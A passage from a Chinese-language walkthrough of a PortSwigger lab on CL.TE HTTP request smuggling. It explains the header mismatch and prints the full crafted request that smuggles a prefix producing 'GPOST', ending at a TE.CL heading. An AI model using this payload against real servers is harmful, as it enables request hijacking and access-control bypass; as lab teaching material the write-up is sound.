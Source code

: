 前端服务器处理 Content-Length 标头并确定请求正文的长度为 13 个字节，直到 SMUGGLED 结束，这个请求被转发到后端服务器，后端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节 (走私的) 未被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)  
解题过程：  
Step 1：访问以上链接并点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-578b39e56e898a777188cbe51c42d00d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154008-51abf38c-aa0b-1.png)  
Step 2：捕获数据包并构造一下请求报文

```plain
POST / HTTP/1.1
Host: 0af800e2048fe11a806ff35700f30086.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 6
Transfer-Encoding: chunked
Cookie: session=Z9jX1prJb6b6yIn5SbqiZY50uHHeECIX

0

G
```

第一次请求操作如下所示：  
[![](assets/1704418275-49f1fd4f27e2df839333c993e8a31e0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154039-644105be-aa0b-1.png)  
第二次请求时发现回显提示"Unrecognized method GPOST"，这个主要是由于前端服务器处理 Content-Length 标头并确定请求正文的长度为 6 个字节，直到 G 结束，这个请求被转发到后端服务器，后端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节 (走私的) 未被处理，后端服务器将把这些视为序列中下一个请求的开始，所以成为了最后的——"GPOST"

[![](assets/1704418275-0d50cbf63e0a4cb71c40f8014efd1be9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154054-6d47dac0-aa0b-1.png)  
Step 3：随后刷新页面成功完成解题

[![](assets/1704418275-bd9bd1d674eb05b8a4c7086e3dbd1966.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154107-74e80322-aa0b-1.png)

### TE.CL vulnerabilities
